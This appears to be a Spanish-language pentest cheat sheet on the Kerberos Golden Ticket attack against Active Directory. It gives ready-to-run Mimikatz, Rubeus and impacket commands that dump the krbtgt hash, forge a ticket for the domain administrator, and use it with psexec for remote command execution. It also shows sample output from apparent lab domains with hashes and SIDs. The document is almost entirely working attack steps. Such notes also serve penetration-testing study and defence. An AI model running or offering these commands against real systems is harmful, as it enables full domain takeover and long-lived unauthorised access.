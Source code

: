 # Golden Ticket Attack

- Cuando comprometemos la cuenta krbtgt, ya owneamos el dominio.
- Podemos solicitar acceso a cualquier recurso o sistema dentro del dominio.
- Golden tickets == Completar acceso a cualquier maquina.

## Mimikatz
- `privilege::debug`
- `lsadump::lsa /inject /name:krbtgt`
- Ahora generamos el golden ticket:
    - `kerberos::golden /User:Administrator /domain:DOMAIN.local /sid:SID /krbtgt:NTLM /id:500 /ptt`
    - el `/id:500` significa el RID de administrador de maximos privilegios.
- `misc::cmd` para abrir un command prompt privilegiado

### Ejemplo mimikatz

```
kerberos::golden /user:administrator /domain:painters.htb /sid:S-1-5-21-1470357062-2280927533-300823338 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-2734290894-461713716-141835440-4601 /ptt
mimikatz # User      : administrator
Domain    : painters.htb (PAINTERS)
SID       : S-1-5-21-1470357062-2280927533-300823338
User Id   : 500
Groups Id : *513 512 520 518 519 
Extra SIDs: S-1-5-21-2734290894-461713716-141835440-4601 ; 
ServiceKey: 4b6af2bf64714682eeef64f516a08949 - rc4_hmac_nt      
Lifetime  : 06/03/2025 13:59:25 ; 04/03/2035 13:59:25 ; 04/03/2035 13:59:25
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'administrator @ painters.htb' successfully submitted for current session

```

## Rubeus
- `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt`

## Golden ticket con impacket
- `impacket-ticketer -nthash NT-HASH -domain DOMAIN.LOCAL -domain-sid DOMAIN-SID -extra-sid EXTRA-SID hacker`
- Exportamos la variable del ticket kerberos: `export KRB5CCNAME=hacker.ccache`
- Utilizamos psexec de impacket para entrar con este ticket `impacket-psexec DOMAIN.LOCAL/hacker@DC01.DOMAIN.LOCAL -k -no-pass -target-ip DC-IP`

### Ejemplo:
- `impacket-ticketer -nthash 4b6af2bf64714682eeef64f516a08949 -domain-sid S-1-5-21-1470357062-2280927533-300823338 -domain PAINTERS.HTB administrator`
- `ls administrator.ccache`
- `export KRB5CCNAME=administrator.ccache`

```
└─$ klist                         
Ticket cache: FILE:administrator.ccache
Default principal: administrator@PAINTERS.HTB

Valid starting       Expires              Service principal
03/06/2025 09:34:13  03/04/2035 09:34:13  krbtgt/PAINTERS.HTB@PAINTERS.HTB
	renew until 03/04/2035 09:34:13
```